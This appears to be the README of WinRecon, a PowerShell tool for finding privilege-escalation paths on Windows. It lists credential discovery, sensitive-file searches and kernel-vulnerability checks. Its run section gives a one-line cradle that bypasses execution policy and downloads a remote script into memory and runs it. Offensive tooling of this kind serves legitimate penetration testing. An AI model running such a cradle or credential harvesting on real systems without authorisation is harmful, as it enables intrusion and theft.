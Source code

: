 # ![WinRecon Logo](./WinRecon.png)

## WinRecon

**WinRecon** is a PowerShell-based enumeration script designed to gather essential system information needed to identify potential privilege escalation opportunities on Windows machines. It automates the process of collecting valuable data to assist penetration testers, red teams, and system administrators in finding weaknesses that could lead to elevation of privileges.

---

## Features

### User and Group Enumeration
- **Local User Accounts**: Lists all local user accounts and highlights administrative accounts.
- **Group Memberships**: Displays detailed information about group memberships.
- **Domain Information**: Extracts information about domain users and domain controllers when applicable.

### Credential Discovery
- **Stored Credentials**: Identifies credentials stored in the system, such as in the registry or configuration files.
- **Password Policies**: Retrieves domain and local password policies to highlight weak configurations.

### Service and Task Enumeration
- **Services**: Lists services with details like privileges, paths, and configurations.
- **Scheduled Tasks**: Enumerates scheduled tasks to identify potential execution vectors.

### Privilege Escalation Insights
- **System Information**: Extracts OS details, patches, and configurations.
- **Misconfigurations**: Identifies potential misconfigurations, such as writable directories or vulnerable registry keys.
- **Kernel Exploits**: Checks for unpatched kernel vulnerabilities based on OS version.

### File and Directory Insights
- **Sensitive Files**: Searches for files containing potential credentials or sensitive data.
- **Writable Directories**: Lists directories writable by non-privileged users.

### Network Configuration
- **Network Interfaces**: Displays information about active network interfaces.
- **Listening Ports**: Identifies listening ports and associated services.

### Logging and Reporting
- **Comprehensive Logging**: Logs findings to a structured and easily readable format.
- **Export Options**: Provides options to save results for later analysis.

---

## How to Run

1. **For full AD options you will need to download PsLoggedon.exe and PowerView.ps1**.
2. Run the script with the following command:
   ```powershell
   powershell -ep Bypass -Command 'IEX(IWR http://<LocalHost>/winrecon.ps1 -UseBasicParsing)'
   ```



